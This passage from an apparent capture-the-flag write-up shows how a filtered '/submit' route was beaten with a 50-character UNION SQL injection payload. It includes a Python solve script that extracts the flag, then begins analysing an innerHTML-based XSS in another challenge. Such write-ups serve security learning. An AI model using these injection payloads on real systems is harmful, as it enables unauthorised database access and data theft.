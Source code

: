 In order to get to that function, we need to go through the `/submit` route, and inside there is a filter. This filter block comments such as `--` and `/**/` so we can't do something like `OR 1=1 --`.

The filter also check if the key and value that we provide are not longer than 10 and 50 characters respectively, and we can't use the key `name` to inject because it will be remove.

So I try to craft a SQLi with <= 50 characters.

After some trials and errors, I came up with the following payload:
```python
{"1": "' UNION SELECT 1,flag,1,1,1,1 FROM flag WHERE ''='"}
```
The length of v is exactly 50 characters!

When injected, the sql query will become the following: 
`select * from users where 1='' UNION SELECT 1,flag,1,1,1,1 FROM flag WHERE ''='' LIMIT 25;` and will return the flag!

**Solve script**
```python
import requests

sess = requests.Session()
url = "https://la-housing.chall.lac.tf"
res = sess.post(url + "/submit", data={"name": "12", "1": "' UNION SELECT 1,flag,1,1,1,1 FROM flag WHERE ''='"})
print(res.text)
```
**Flag:** lactf{us3_s4n1t1z3d_1npu7!!!}

## new-housing-portal
Looking at the code we can see that there's a possible XSS at the `/finder` endpoint.
```js
const $ = q => document.querySelector(q);

$('.search input[name=username]').addEventListener('keydown', (e) => {
  if (e.key === 'Enter') {
    location.search = '?q=' + encodeURIComponent(e.target.value);
  }
});

const params = new URLSearchParams(location.search);
const query = params.get('q');
if (query) {
  (async () => {
    const user = await fetch('/user?q=' + encodeURIComponent(query))
      .then(r => r.json());
    if ('err' in user) {
      $('.err').innerHTML = user.err;
      $('.err').classList.remove('hidden');
      return;
    }
    $('.user input[name=username]').value = user.username;
    $('span.name').innerHTML = user.name;
    $('span.username').innerHTML = user.username;
    $('.user').classList.remove('hidden');
  })();
}
```
{: file="finder/index.js" }
